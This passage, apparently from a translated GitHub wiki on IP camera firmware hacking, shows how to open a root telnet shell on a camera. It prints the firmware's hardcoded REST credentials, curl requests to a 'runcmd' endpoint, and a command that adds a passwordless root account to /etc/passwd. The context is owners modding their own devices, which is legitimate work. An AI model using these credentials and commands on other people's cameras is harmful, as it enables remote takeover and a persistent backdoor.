 ### 启动 telnetd

摄像机原始FW运行具有身份验证的REST服务器（用户：PpStRoNg，密码：#%&wL1@\*tU123zv）。

最有趣的功能之一是"runcmd"函数（将 \<your_cam_ip\> 替换为您的相机 IP 地址）：

发送请求（注意密码中的 & 用 \\ 转义）：
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"ls"}'
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 0
```

获取输出（json 格式）：
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 129
{
        "value":        "usr\nsys\netc\nmnt\nlib\nproc\nboot\nopt\nlinuxrc\nbin\ndev\ninit\nhome\nsbin\nnfsroot\nroot\ntmp\nvar\ndevinfo\n"
}
```

在最新的 FW 中，他们已经删除了"telnetd"二进制文件，因此您需要将其放在 sdcard 上：[telnetd.zip](https://github.com/ljalves/wiki/files/7875319/telnetd.zip)


要启动服务器，请将 telnetd 二进制文件复制到 SD 卡并运行：
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"echo 'anyone::0:0:root:/:/bin/sh' >> /etc/passwd"}'
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"/mnt/mmc01/telnetd &"}'
```

此时您应该能够 telnet 到相机：
```
$ telnet <your_cam_ip>
Trying <your_cam_ip>...
Connected to <your_cam_ip>.
Escape character is '^]'.
(none) login: anyone


BusyBox v1.26.2 (2019-04-16 05:35:27 PDT) built-in shell (ash)

/ #
```


### [ipctool](https://github.com/OpenIPC/ipctool) 输出（8Mb flash）：

